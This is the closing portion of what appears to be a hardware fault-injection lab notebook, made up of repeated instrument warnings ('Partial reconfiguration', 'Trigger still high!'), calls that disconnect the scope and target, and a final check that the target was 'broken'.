    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    




.. parsed-literal::

    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    




.. parsed-literal::

    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    WARNING:root:Partial reconfiguration for offset = 0 may not work
    




.. parsed-literal::

    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    Trigger still high!
    



**In [11]:**

.. code:: ipython3

    scope.dis()
    target.dis()


**In [12]:**

.. code:: ipython3

    assert broken is True

